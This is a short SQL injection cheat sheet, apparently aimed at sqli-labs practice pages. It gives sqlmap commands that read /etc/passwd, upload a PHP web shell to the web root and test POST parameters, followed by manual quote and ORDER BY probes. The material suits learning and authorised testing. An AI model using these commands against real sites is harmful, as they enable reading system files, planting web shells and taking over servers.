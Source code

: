 ```bash
./sqlmap.py -u <URL> --file-read=<file to read>
```

```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 --file-read=/etc/passwd
```

#### Writing file

```
./sqlmap.py -u <url> --file-write=<file> --file-dest=<path>
```

```
./sqlmap.py -u http://localhost/Less-1/?id=1 --file-write=shell.php --file-dest=/var/www/html/shell-php.php
```

#### POST

```bash
./sqlmap.py -u <POST-URL> --data="<POST-paramters> "
```

```bash
./sqlmap.py -u http://localhost/Less-11/ --data "uname=teste&passwd=&submit=Submit" -p uname
```

You can also use a file like with the post request:

```bash
./sqlmap.py -r post-request.txt -p uname
```

### Bare Hands

#### GET

#### Error-Based

#### Simple test

`Adding a simpe quote '`

Example:

```
http://192.168.1.104/Less-1/?id=5'
```

#### Fuzzing

Sorting columns to find maximum column

`http://192.168.1.104/Less-1/?id=-1 order by 1`

`http://192.168.1.104/Less-1/?id=-1 order by 2`

`http://192.168.1.104/Less-1/?id=-1 order by 3`
